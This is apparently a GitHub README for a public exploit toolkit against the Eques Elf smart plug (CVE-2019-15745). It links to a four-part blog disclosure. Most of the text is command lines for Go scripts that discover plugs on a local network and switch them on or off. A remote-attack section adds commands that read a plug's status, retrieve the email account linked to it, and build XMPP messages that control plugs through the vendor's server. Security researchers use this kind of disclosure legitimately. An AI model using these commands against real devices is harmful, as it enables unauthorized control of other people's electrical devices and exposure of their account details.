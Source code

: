 This repo contains exploit code/scripts for the eques elf smart plugs - https://equeshome.com/products/elf-smart-plug.

Full details can be found in the following four part series - https://www.ckn.io/blog/2019/08/27/exploiting-the-eques-elf-smart-plug-part-one/

The vulnerabilities have been allocated  CVE-2019-15745 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15745
## Local attacks

To discover all smart plugs in a network:

```
go run equeslocal.go --command=discover
```
To check the status of a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=status
```
To turn on a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=on
```
To turn off a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=off
```
## Remote attacks

To check the software and hardware version of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=version
```
To check the status of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=status
```
To get the email account linked to a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=auth
```
To check if a timer is set on a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=timer
```
To generate the message to turn the plug on over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=on
```
To generate the message to turn the plug off over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=off
```
